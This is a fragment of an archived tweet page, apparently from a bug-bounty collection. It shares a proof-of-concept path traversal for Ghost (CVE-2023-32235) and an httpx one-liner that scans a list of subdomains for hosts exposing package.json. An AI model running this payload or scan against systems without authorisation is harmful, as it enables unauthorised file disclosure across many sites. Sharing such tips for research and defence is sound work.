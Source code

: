 <td>Quotes: <code>5</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>499</code></td>
</tr></table>

---

# alone_breecher
**https://twitter.com/alone_breecher/status/1677362933108441088 _at 2023-07-07, 17:04:21_**
<blockquote>
Title :-  Ghost Path Traversal CVE-2023-32235🪲

poc :- "{{base-uri}}/assets/built%2F..%2F..%2F/package.json"

one liner :- "httpx -l subs.txt -path "/assets/built%2F..%2F..%2F/package.json" -status-code -mc 200 "

#bugbountytips #BugBounty #infosec #Hacking #CyberSecurity #CVE https://t.co/GCwr462qIK
</blockquote>

<table><tr>
<td><img src="pictures/7afb7359953b13ba65de807bf29b11af73132500d1119ff426c1e2da24f1df58.jpg" alt="7afb7359953b13ba65de807bf29b11af73132500d1119ff426c1e2da24f1df58.jpg"></td>